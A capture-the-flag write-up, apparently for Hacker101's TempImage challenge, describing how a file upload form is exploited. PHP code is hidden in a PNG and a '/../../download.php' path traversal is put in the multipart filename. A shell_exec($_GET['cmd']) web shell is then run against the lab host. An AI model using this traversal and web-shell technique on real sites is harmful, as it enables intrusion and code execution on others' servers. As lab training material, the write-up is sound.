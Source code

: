 # TempImage

## 1. Flag 2

Tried uploading files 

download.png -->> 820c946b78eb0d3b0dfe2067189de065_download.php.png

download2.png -->> 83ba84583557e3b03ad3bdc749370e73_download2.png

Files were renamed to <md5hash>_<realfilename>.<ext>

Tried to download 159df48875627e2f7f66dae584c5e3a5_flag.txt and some other didn't work

Watched a H101 file inclusion video, got info about file multipart/form-data esp boundary param.

Connected Burp Suite and tried changing the filename param to `/etc/passwd` got following error.

```php+HTML
Warning: move_uploaded_file(files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd): failed to open stream: No such file or directory in /app/doUpload.php on line 7

Warning: move_uploaded_file(): Unable to move '/tmp/phpSayLpg' to 'files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd' in /app/doUpload.php on line 7
ERROR: Upload failed
```

Got all the info required. The file content when uploaded is present at `/tmp/phpSayLpg`  and is being moved to files/<md5sum of filename>_file_name.<ext>

Great!

Modified  `download.png` (downloded from google) with embedded php code included just `<?php echo "hello world" ?> ` using exiftool to check (BTW using exiftool was causing problem 'unexpected end of file' error, attached payload manually at the end of file)

![Screen Shot 2020-05-17 at 12.55.13 AM](/Users/rajsharm/Desktop/Screen Shot 2020-05-17 at 12.55.13 AM.jpg)

Uploaded the png, intercepting in Burp and changing the file name to `/../../download.php` in the filename param as well as in each boundary.

This way file gets moved to the directory where index.php is present because the call to move_uploaded_file() will be called with `files/0742d73fcdc2f4f928d8995aaac3c024_/../../download.php`

Now we have RCE!

Embedded `<?php echo file_get_contents("index.php"); ?>` in png, server returned the contents of index.php, viewed the source code **got the FLAG**

## 2. Flag 1

Now that we have RCE, embedded below

```php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
```

in the png and uploaded.

Now we have shell access.

Did cat on all the files present. Using `http://35.227.24.107/60923ee32a/download.php?cmd=cat doUpload.php`

**Found the Flag in doUpload.php**


